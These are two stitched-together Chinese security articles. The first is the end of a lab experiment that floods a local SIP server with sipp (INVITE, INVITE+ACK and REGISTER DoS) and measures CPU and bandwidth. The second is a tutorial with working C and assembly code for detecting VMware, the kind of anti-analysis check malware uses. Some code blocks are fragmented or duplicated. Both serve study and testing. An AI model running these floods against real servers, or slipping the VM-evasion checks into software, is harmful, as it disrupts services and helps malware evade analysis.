网络统计使用的是工具 `bwm-ng`，运行的时候，按 `t` 键可以切换数据显示模式，如图 2 所示。



RX 代表收到，TX 代表本机发送出去的。我们切换到显示 30s 内的网络流量平均值模式。

## 统计内存和 CPU 使用量

对于 CPU 统计，这里有一个插曲。当时以为 `ps` 和 `top` 命令都可以显示 CPU 数据，所以写了个脚本从 `ps` 中获取某个进程的 CPU 占用量，在用脚本统计的同时使用 `top` 大致计算了一下 CPU 占用量，发现两者完全不一致。`top` 的 CPU 占用量达到 80% 以上时，`ps` 的统计值只有 20% 左右。于是到网上搜了一下，发现这两者确实存在差异。网上的说法有很多，反正确定的是 `top` 命令显示的是双核 CPU 使用量之和，是正确的。所以，针对 `top` 写了一个统计脚本（命名为 `top.sh`）。

```bash
#!/bin/bash
while [1]
do
  ...
```

```bash
rm t
top -d 0.2 -b -n1 > t
awk 'BEGIN{sumcpu=0;summem=0} {sumcpu+=$9; summem+=$10} END{print sumcpu " " summem}'
grep ser t | awk 'BEGIN{sumcpu=0;summem=0} {sumcpu+=$9; summem+=$10} END{print sumcpu " " summem}'
sleep 1
done
```

简单解释一下，`top` 命令的 `-d` 后面接的是刷新时间，`-b -n 1` 表示统计一次。该语句表示每个 0.2s 显示一次 CPU/mem 使用率，然后写入中间文件。因为要同时统计整个服务器上的 CPU/mem 使用量和 ser 服务器单个应用程序的 CPU/mem 使用率，所以对每次 `top` 出来的统计结果都用了中间文件存储。后面是两条 awk 语句。`$9`、`$10` 需要根据机器来确定，对应的是 `top` 时显示的第几列。

## 实验步骤

1. 客户端运行 `sipp`。
2. 运行 `bwm-ng`。
3. 当流量比较稳定之后（大概攻击开始 3s 以后），运行 `top.sh`，就会统计出当前的 CPU/mem 使用率和 ser 应用程序（ser 含有 >4 个进程）的 CPU/mem 使用率。
4. 依次停止 `top.sh`、`bwm-ng`、攻击端。

## 实验参数说明

- **PacketNum**：每秒发送的数据包数目。
- **TCPU/SCPU**：系统总 CPU 使用量（TotalCPU）/ Ser 服务器占用的 CPU。
- **TMem/Smem**：系统总 Mem 使用量（TotalMem）/ Ser 服务器占用的 Mem。
- **BandWidth**：带宽占用情况。
- **TotalCalls**：攻击过程中发送的所有数据包之和（在攻击端统计）。
- **TotalTime**：攻击持续的时间（也在攻击端统计）。

## 实验的原理及具体实施

**攻击 1：Invite-Ack**

只有 Invite，没有 Ack 的攻击。在《SIP 协议的 DOS 攻击原理》一文中，讲解了 SIP 协议的工作流程。客户端在发出 Invite 消息到代理服务器，服务器会返回 100 或者 180 等消息应答。如果找到了被呼叫方就返回一个 200 OK。攻击 1 就是只管发出消息，而不理会服务器返回的消息。在 stateful 代理服务器中，服务器要为呼叫方保存一个 Session 在内存中，消耗一定的内存。

```bash
sipp -sf Invite-Ack.xml -s 111 -r 100 -rp 1000 192.168.1.144
```

1. `-sf 文件名`：载入外部的数据文件（符合 SIP 语法即可）。
2. `-s server`：可以理解为被攻击客户端的别名（相对 SIP URI 而言）。
3. `-r 100 -rp 1000`：两者放在一起理解，表示 1000ms 发送 100 个 Invite-Ack SIP 数据包。

最后的参数是服务器的地址。由于有了前面 inviteflood 编程的基础，所以这里就不再赘述 XML 里面的内容。相应的内容，我会以附件形式提供。后面的几个 XML 文件也可以在附件中找到。

## Attack 2：Invite + ACK

发送 Invite 和 ACK，但是不发送 Bye。和攻击 1 不同，客户端会一直等到服务器返回 200 OK，然后返回一个 ACK 消息给代理服务器。此时，会话建立，服务器上会为会话双方建立一个 dialog。这个 dialog 相对攻击 1 和 3 要消耗更多内存，而且由于每个消息都要验证 call-id 等信息，所以在 CPU 的消耗上也要高过另两者。攻击使用的文件是 Invite+Ack.xml，命令如下：

```bash
sipp -sf Invite+Ack.xml -s 111 -r 100 -rp 1000 192.168.1.144
```

要加大攻击的速度，可以修改 r 参数。或者在攻击的过程中通过 +、-、*、/ 键来调节。

## Attack 3：Register 不停地注册用户

当服务器添加了注册验证时有效。在实际的攻击中，要完成攻击 1 和攻击 2 的前提是你是注册用户。目前绕过注册还没有很好的方法，主要的方法有两个：

- 直接枚举攻击。就是我们说的暴力破解，通过不断地发包，根据返回的错误信息来枚举出密码和用户名。
- Sniff，嗅探用户的敏感信息。如果加密的话，该路就比较难走了。

所以，服务器最可能遭受的是攻击 3。攻击使用的文件是 Register.xml，命令如下：

```bash
sipp -sf Register.xml -s 111 -r 100 -rp 1000 192.168.1.144
```

## 实验结果及分析

### Exp1—Invite—Ack

| PacketNum | 10² | 10³ | 5000 | 10⁴ | 2.4*10⁴ | 3*10⁴ |
|---|---:|---:|---:|---:|---:|---:|
| TCPU/SCPU | 3.80/1.68 | 12.63/10.29 | 43.53/40.92 | 75.92/73.27 | 114.41/112.10 | 124.61/122.17 |
| TMem/SMem | 8.29/0.29 | 8.44/0.65 | 9.02/1.09 | 9.59/1.67 | 9.76/1.76 | 13.98/6.04 |
| BandWidth(k/s) | 53.92 | 543.63 | 2694.99 | 5357.92 | 9795.18 | 11504.63 |
| TotalCalls | 15932 | 187507 | 9688.94 | 1607851 | 2411545 | 57637141 |
| TotalTime | 159.322 | 187.50 | 193.79 | 161.37 | 143.73 | 226.01 |

### Exp2—Invite + Ack

| PacketNum | 10² | 10³ | 10⁴ | 2.4*10⁴ | 3*10⁴ |
|---|---:|---:|---:|---:|---:|
| TCPU/SCPU | 4.65/2.08 | 19.39/16.78 | 121.30/118.72 | 124.16/121.54 | 126.75/123.81 |
| TMem/SMem | 23.63/15.73 | 23.49/15.66 | 25.22/17.32 | 25.80/17.90 | 25.30/17.40 |
| BandWidth(k/s) | 95.93 | 944.45 | 11347.70 | 11661.28 | 11662.50 |
| TotalCalls | 16308 | 169718 | 1084875 | 1728313 | 1565989 |
| TotalTime | 163.08 | 169.71 | 165.13 | 157.64 | 202.14 |

### Exp3—Register

| PacketNum | 10² | 10³ | 5000 | 10⁴ | 2.4*10⁴ | 3*10⁴ |
|---|---:|---:|---:|---:|---:|---:|
| TCPU/SCPU | 3.76/1.25 | 12.57/10.05 | 42.89/40.59 | 71.97/69.62 | 77.11/74.39 | 78.60/76.11 |
| TMem/SMem | 9.59/1.59 | 9.93/1.92 | 10.28/2.37 | 121.48/3.49 | 12.03/4.03 | 12.00/4.00 |
| BandWidth(k/s) | 34.53 | 346.71 | 1726.31 | 3466.30 | 6531.71 | 9441.76 |
| TotalCalls | 14359 | 134981 | 680128 | 1881774 | 5011549 | 5011549 |
| TotalTime | 143.59 | 134.98 | 136.03 | 188.38 | 163.40 | 192.20 |

## 分析

- 在 CPU 的使用率上，攻击 2 的效果最明显，CPU 的上升速度很快。
- 在内存的消耗上，攻击 2 也是最大的。因为攻击 2 在回复了一个 ACK 之后，服务器上面会保存一个 Session 来等待 dialog 的结束，这个 Session 会消耗一定的内存。
- 在数据包饱和时，攻击 1 和攻击 2 消耗 CPU 接近，主要因为网络带宽已耗尽。
- 丢包率可以通过 `TotalTime * PacketNum / TotalCalls` 计算出来。

## 小结

本文主要介绍针对 SIP 协议的压力测试工具——sipp 的基本使用。同时，利用一些数据，给出如何进行 DOS 攻击、DOS 攻击在服务器上的表现。sipp 还有更多高级功能，结合脚本可以模拟客户端随机发包、设置丢包率并遵循不同分布。针对 SIP 协议的攻击远不止 DOS，还包括枚举攻击、中间人攻击（cancel 和 bye）等。本文仅在 DOS 这一点上进行了实验，文中如有不足欢迎指正。

前置知识：无

关键字：虚拟机、VMware

# 虚拟机检测技术剖析

文/图 riusksk（泉哥）


## 前言

在当今信息安全领域，特别是恶意软件分析中，经常需要利用到虚拟机技术，以提高病毒分析过程的安全性以及硬件资源的节约性，因此它在恶意软件领域中应用越来越广泛。这里我们所谓的虚拟机（Virtual Machine）是指通过软件模拟的、具有完整硬件系统功能的、运行在一个完全隔离环境中的完整计算机系统。通过虚拟机软件（比如 VMware、Virtual PC、VirtualBox），你可以在一台物理计算机上模拟出一台或多台虚拟计算机……本文主要针对基于 Intel CPU 的虚拟环境 VMware 中的 Windows XP SP3 系统进行检测分析，并列举出当前常见的几种虚拟机检测方法。

### 方法一：通过执行特权指令来检测虚拟机

VMware 为真实机与虚拟机之间提供了相互沟通的通信机制，它使用 “IN” 指令来读取特定端口的数据以进行两机通信。但由于 IN 指令属于特权指令，在保护模式下的真机上执行时，除非权限允许，否则将会触发异常；而在虚拟机中通常不会发生异常……在指定功能号 0xA（获取 VMware 版本）情况下，会在 EBX 中返回 “VMXH”；当功能号为 0x14 时可用于获取 VMware 内存大小。VMDetect 正是利用这一方法来检测 VMware 的存在。

```c
bool IsInsideVMWare()
{
    bool rc = true;
    __try {
        __asm {
            push edx
            push ecx
            push ebx
            mov eax,'VMXh'
            mov ebx,0
            mov ecx,10
            mov edx,'VX'
            in eax,dx
            cmp ebx,'VMXh'
            setz [rc]
            pop ebx
            pop ecx
            pop edx
        }
    } __except(EXCEPTION_EXECUTE_HANDLER) {
        rc = false;
    }
    return rc;
}
```

```c
bool IsInsideVMWare()
{
    bool rc = true;
    __try {
        __asm {
            push edx
            push ecx
            ...
        }
    }
}
```

```c
}
__except(EXCEPTION_EXECUTE_HANDLER)
// 如果未处于 VMware 中，则触发此异常
{
    rc = false;
}
return rc;
}
```

```c
((void(*)())&rpill)();
// 执行 SIDT 指令，并将读取后 IDT 地址保存到数组 m 中
printf("idt base: %x\n", *((unsigned*)&m[2]));
// 由于前 2 字节为 IDT 大小，因此从 m[2] 开始即为 IDT 地址
if (m[5] > 0xd0) printf("Inside Matrix\n");
// 当 IDT 基址大于 0xd0xxxxxx 时则说明程序处于 VMware 中
else printf("Not in Matrix.\n");
return 0;
}
```

测试结果如图 1 所示。  
测试结果如图 2 所示。





图 1

图 2

如图 1 所示，VMDetect 成功检测出 VMware 的存在。

## 方法二：利用 IDT 基址检测虚拟机

利用 IDT 基址检测虚拟机的方法是一种通用方式，对 VMware 和 Virtual PC 均适用。中断描述符表 IDT（Interrupt Descriptor Table）用于查找处理中断时所用的软件函数，它是一个由 256 项组成的数据，其中每一中断对应一项函数。为了读取 IDT 基址，我们需要通过 SIDT 指令来读取 IDTR（中断描述符表寄存器，用于 IDT 在内存中的基址），SIDT 指令以如下格式来存储 IDTR 的内容：

```c
typedef struct
{
    WORD IDTLimit;      // IDT 的大小
    WORD LowIDTbase;    // IDT 的低位地址
    WORD HiIDTbase;     // IDT 的高位地址
} IDTINFO;
```

由于只存在一个 IDTR，但又存在两个操作系统，即虚拟机系统和真实机系统。为了防止发生冲突，VMM（虚拟机监控器）必须更改虚拟机中的 IDT 地址，利用真实机与虚拟机环境中执行 SIDT 指令的差异即可用于检测虚拟机是否存在。著名的“红丸”（Redpill）正是利用此原理来检测 VMware 的。Redpill 作者在 VMware 上发现虚拟机系统上的 IDT 地址通常位于 0xFFXXXXXX，而 Virtual PC 通常位于 0xE8XXXXXX，而在真实主机上都位于 0x80XXXXXX。Redpill 仅仅是通过判断执行 SIDT 指令后返回的第一字节是否大于 0xD0，若是则说明它处于虚拟机，否则处于真实主机中。Redpill 的源代码很精简，源码分析如下：

```c
#include <stdio.h>
int main() {
    unsigned char m[2+4], rpill[] =
"\x0f\x01\x0d\x00\x00\x00\x00\xc3"; // 相当于 SIDT [addr]
    *(unsigned*)&rpill[3] = (unsigned)m;   // 用于保存 IDT 地址
    // 将 sidt [addr] 中的 addr 设为 m 的地址
}
```

利用此 IDT 检测的方法存在一个缺陷，由于 IDT 的值只针对处于正在运行的处理器而言，在单 CPU 中它是个常量；但当它处于多 CPU 时就可能会受到影响，因为每个 CPU 都有其自己的 IDT。针对此问题，Offensive Computing 组织成员提出了两种应对方法：一种方法是利用 Redpill 反复地在系统上循环执行任务，以此构造出一张当前系统的 IDT 值变化统计图，但这会增加 CPU 负担；另一种方法是 Windows API 函数 SetThreadAffinityMask() 将线程限制在单处理器上执行，当执行此测试时只能准确地将线程执行环境限制在本地处理器，而对于将线程限制在 VM 处理器上就可能行不通，因为 VM 是计划在各处理器上运行的，VM 线程在不同的处理器上执行时，IDT 值将会发生变化，因此此方法也是很少被使用的。为此，有人提出了使用 LDT 的检测方法，它在具有多个 CPU 的环境下检测虚拟机明显优于 IDT 检测方法，该方法具体内容参见下节内容。

## 方法三：利用 LDT 和 GDT 的检测方法

在《Intel 64 and IA-32 Architecture Software Developer’s Manual Volume 3A: System Programming Guide》第 2 章的 Vol.3 2-5 一页（我的 Intel 开发手册是 2008 版的）中对于 LDT 和 GDT 的描述如下（以下内容为个人翻译）：

在保护模式下，所有的内存访问都要通过全局描述符表（GDT）或者本地描述符表（LDT）才能进行。这些表包含有段描述符的调用入口。每个段描述符都包含有各段的基址、访问权限、类型和使用信息，而且每个段描述符都拥有一个与之相匹配的段选择子，各个段选择子都为软件程序提供一个 GDT 或 LDT 索引（与之相关联的段描述符偏移量）、一个全局/本地标志（决定段选择子是指向 GDT 还是 LDT），以及访问权限信息。若想访问段中的某一字节，必须同时提供一个段选择子和一个偏移量。段选择子为段提供可访问的段描述符地址（在 GDT 或者 LDT 中）。通过段描述符，处理器从中获取段在线性地址空间里的基址，而偏移量用于确定字节地址相对基址的位置。假定处理器在当前权限级别（CPL）可访问这个段，那么通过这种机制就可以访问在 GDT 或 LDT 中的各种有效代码、数据或者堆栈段，这里的 CPL 是指当前可执行代码段的保护级别。

……

GDT 的线性基址被保存在 GDT 寄存器（GDTR）中，而 LDT 的线性基址被保存在 LDT 寄存器（LDTR）中。

由于虚拟机与真实主机中的 GDT 和 LDT 并不能相同，这与使用 IDT 的检测方法一样，因此虚拟机必须为它们提供一个“复制体”。关于 GDT 和 LDT 的基址可通过 SGDT 和 SLDT 指令获取。虚拟机检测工具 Scoopy suite 的作者 Tobias Klein 经测试发现，当 LDT 基址位于 0x0000（只有两字节）时为真实主机，否则为虚拟机；而当 GDT 基址位于 0xFFXXXXXX 时说明处于虚拟机中，否则为真实主机。具体实现代码如下：

```c
#include <stdio.h>
void LDTDetect(void)
{
    unsigned short ldt_addr = 0;
    unsigned char ldtr[2];
    __asm sldt ldtr
    ldt_addr = *((unsigned short *)&ldtr);
    printf("LDT BaseAddr:0x%x\n", ldt_addr);
    if(ldt_addr == 0x0000)
        printf("Native OS\n");
    else
        printf("Inside VMware\n");
}

void GDTDetect(void)
{
    unsigned int gdt_addr = 0;
    unsigned char gdtr[4];
    __asm sgdt gdtr
    gdt_addr = *((unsigned int *)&gdtr[2]);
    printf("GDT BaseAddr:0x%x\n", gdt_addr);
    if((gdt_addr >> 24) == 0xff)
        printf("Inside VMware\n");
    else
        printf("Native OS\n");
}

int main(void)
{
    LDTDetect();
    GDTDetect();
    return 0;
}
```

测试结果如图 3 所示。



## 方法四：基于 STR 的检测方法

在保护模式下运行的所有程序在切换任务时，对于当前任务中指向 TSS 的段选择器将会被存储在任务寄存器中，TSS 中包含当前任务的可执行环境状态，包括通用寄存器状态、段寄存器状态、标志寄存器状态、EIP 寄存器状态等，当此项任务再次被执行时，处理器就会运行其原先保存的任务状态。每项任务均有其自己的 TSS，而我们可以通过 STR 指令来获取指向当前任务中 TSS 的段选择器。这里 STR（Store task register）指令是用于将任务寄存器（TR）中的段选择器存储到目标操作数，目标操作数可以是通用寄存器或内存位置，使用此指令存储的段选择器指向当前正在运行的任务的任务状态段（TSS）。在虚拟机和真实主机之中，通过 STR 读取的地址是不同的，当地址等于 0x00/0xXXX 时，说明处于虚拟机中，否则为真实主机。实现代码如下：

```c
#include <stdio.h>
int main(void)
{
    unsigned char mem[4] = {0};
    int i;
    __asm str mem;
    printf("STR base:0x");
    for(i=0; i<4; i++)
        printf("%02x", mem[i]);

    if((mem[0]==0x00) && (mem[1]==0x40))
        printf("\nINSIDE MATRIX!\n");
    else
        printf("\nNative OS!\n");
    return 0;
}
```

测试结果如图 4 所示。



## 方法五：基于注册表检测虚拟机

在 Windows 虚拟机中常常安装有 VMware Tools 以及其他的虚拟硬件（如网络适配器、虚拟打印机、USB 集线器……），它们都会创建任何程序都可以读取的 Windows 注册表项，因此我们可以通过检测注册表中的一些关键字符串来判断程序是否处于虚拟机之中。关于这些注册表的位置我们可以通过在注册表中搜索关键词“vmware”来获取，下面是我在 VMware 下的 WinXP 中找到的一些注册表项：

- 项名：`HKEY_CLASSES_ROOT\Applications\VMwareHostOpen.exe`
- 项名：`HKEY_CLASSES_ROOT\Installer\Products\...\ProductName`，键值：`VMware Tools`
- 项名：`HKEY_CLASSES_ROOT\Installer\Products\...\SourceList\PackageName`，键值：`VMware Tools.msi`
- 项名：`HKEY_CURRENT_USER\Printers\DeviceOld`，键值：`#VMwareVirtualPrinter...`
- 项名：`HKEY_LOCAL_MACHINE\HARDWARE\DEVICEMAP\Scsi\...\Identifier`，键值：`VMware Virtual IDE Hard Drive`
- 项名：`HKEY_LOCAL_MACHINE\HARDWARE\DEVICEMAP\Scsi\...\Identifier`，键值：`NECVMWar VMware IDE CDR10`

- 项名：HKEY_LOCAL_MACHINE\SOFTWARE\Classes\Installer\Products\...\ProductName  
  - 键值：VMware Tools
- 项名：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Installer\UserData\...\InstallProperties\DisplayName  
  - 键值：VMware Tools
- 项名：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\...\DeviceDesc  
  - 键值：VMware SVGA II
- 项名：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\NetworkCards\...\Description  
  - 键值：VMware Accelerated AMD PCNet Adapter
- 项名：HKEY_LOCAL_MACHINE\SOFTWARE\VMware, Inc.\VMware Tools
- 项名：HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Class\...\0000\DriverDesc  
  - 键值：VMware SVGA II
- 项名：HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Class\...\0000\ProviderName  
  - 键值：VMware, Inc.
- 项名：HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Class\...\0001\DriverDesc  
  - 键值：VMware Accelerated AMD PCNet Adapter
- 项名：HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Class\...\0000\DriverDesc  
  - 键值：VMware SCSI Controller
- 项名：HKEY_LOCAL_MACHINE\SYSTEM\Control\Print\Monitors\ThinPrint Print Port Monitor for VMware

除以上这些表项之外，还有很多地方可以检测，特别是虚拟机提供的虚拟化软硬件、服务之类，比如文件共享服务，VMware 物理磁盘助手服务，VMware Ethernet Adapter Driver，VMware SCSI Controller 等，这些信息都可作为检测虚拟机的手段。这里我们就以其中某表项为例编程举例一下，其他表项检测方法同理，具体代码如下：

```asm
.386
.model flat, stdcall
option casemap:none
include windows.inc
include user32.inc
include kernel32.inc
include advapi32.inc
includelib user32.lib
includelib kernel32.lib
includelib advapi32.lib

.data
szCaption db "VMware Detector",0
szInside db "Inside VMware!",0
szOutside db "Native OS!",0
szSubKey db "Software\\VMware, Inc.\\VMware Tools",0
hKey dd ?

.code
start:
    invoke RegOpenKeyEx, HKEY_LOCAL_MACHINE, addr szSubKey, 0, KEY_WRITE or KEY_READ, addr hKey
    .if eax == ERROR_SUCCESS
        invoke MessageBox, NULL, addr szInside, addr szCaption, MB_OK
    .else
        invoke MessageBox, NULL, addr szOutside, addr szCaption, MB_OK
    .endif
    invoke RegCloseKey, hKey
    invoke ExitProcess, NULL
end start
```

测试结果如图 5 所示。

